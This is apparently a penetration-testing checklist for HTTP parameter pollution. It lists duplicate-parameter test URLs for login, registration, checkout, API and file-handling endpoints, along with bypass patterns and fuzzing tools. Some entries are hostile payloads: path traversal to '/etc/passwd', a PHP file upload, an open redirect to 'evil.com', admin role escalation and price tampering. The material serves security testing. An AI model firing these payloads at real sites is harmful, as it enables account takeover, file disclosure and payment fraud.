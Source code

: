 
## Purpose:
Detect duplicate parameters or improperly parsed user input that leads to authentication bypass, WAF bypass, logic flaws, cache poisoning, or input validation failures.

---

## Authentication & Session Endpoint
- [ ] `/login?user=admin&user=guest`
- [ ] `/register?role=user&role=admin`
- [ ] `/forgot-password?email=attacker@x.com&email=victim@x.com`
- [ ] `/2fa?code=1234&code=0000`
- [ ] `/logout?token=abc&token=xyz`
- [ ] `/session?token=xyz&token=expired_token`
- [ ] `/sso/callback?redirect_uri=evil.com&redirect_uri=good.com`
- [ ] `/mfa/setup?step=1&step=2`
- [ ] `/otp/verify?otp=1111&otp=2222`
- [ ] `/auth?provider=google&provider=internal`

---

## Account/Profile Management
- [ ] `/profile?user_id=1&user_id=2`
- [ ] `/change-email?email=attacker@evil.com&email=victim@target.com`
- [ ] `/delete-account?confirm=yes&confirm=no`
- [ ] `/settings?dark_mode=1&dark_mode=0`
- [ ] `/update-password?password=abc&password=xyz`
- [ ] `/avatar/upload?file=avatar.jpg&file=evil.php`
- [ ] `/preferences?timezone=UTC&timezone=PST`
- [ ] `/notifications?enabled=true&enabled=false`
- [ ] `/roles?admin=false&admin=true`
- [ ] `/permissions?edit=true&edit=false`

---

## E-Commerce / Checkout Flows
- [ ] `/cart/add?item=101&item=102`
- [ ] `/cart/update?qty=1&qty=999`
- [ ] `/checkout?total=100&total=1`
- [ ] `/apply-coupon?code=XYZ&code=ABC`
- [ ] `/buy?product_id=200&product_id=1`
- [ ] `/payment?amount=0&amount=1000`
- [ ] `/shipping?method=standard&method=express`
- [ ] `/invoice?customer=abc&customer=def`
- [ ] `/subscription?plan=basic&plan=premium`
- [ ] `/wallet/topup?value=0&value=1000`

---

## API & Query Parameters
- [ ] `/api/users?id=1&id=admin`
- [ ] `/api/data?json=true&json=false`
- [ ] `/api/items?limit=10&limit=1000`
- [ ] `/search?q=abc&q=xyz`
- [ ] `/api/token?refresh=true&refresh=false`
- [ ] `/api/export?format=csv&format=json`
- [ ] `/api/filter?type=guest&type=admin`
- [ ] `/api/balance?currency=INR&currency=USD`
- [ ] `/api/upload?mime=jpg&mime=php`
- [ ] `/api/view?id=999&id=0`

---

## File Handling & Upload
- [ ] `/upload?file=img.jpg&file=img.php`
- [ ] `/download?name=doc.pdf&name=../../../etc/passwd`
- [ ] `/backup?file=config&file=../../db`
- [ ] `/export?file=valid.csv&file=malicious.exe`
- [ ] `/preview?doc=invoice.doc&doc=evil.html`
- [ ] `/report?type=pdf&type=zip`
- [ ] `/import?source=url1&source=url2`
- [ ] `/media?path=images&path=../secrets`
- [ ] `/pdfgen?template=official&template=attack`
- [ ] `/archive?target=logs&target=../../root`

---

## Common Bypass & Exploitation Patterns
- [ ] `param=value1&param=value2` → double keys
- [ ] `param[]=1&param[]=2` → array keys
- [ ] `param[0]=foo&param[1]=bar` → object/array bypass
- [ ] `param=value%00` + `param=value` → null-byte injection
- [ ] `param=value;param=value2` (semicolon injection)

---

## Test Vectors
- [ ] Check which parameter is prioritized: first or last?
- [ ] Does duplication affect security logic? (e.g. role=admin&role=user)
- [ ] Does backend parse arrays vs scalar values inconsistently?
- [ ] What happens when mixed data types are passed? (string + boolean)

---

## Tooling
- [ ] Burp Suite: Param Miner, Repeater
- [ ] HPP-Fuzzer (automated scanner)
- [ ] Custom curl/bash scripts for brute injection
- [ ] mitmproxy or Postman for manual inspection

---
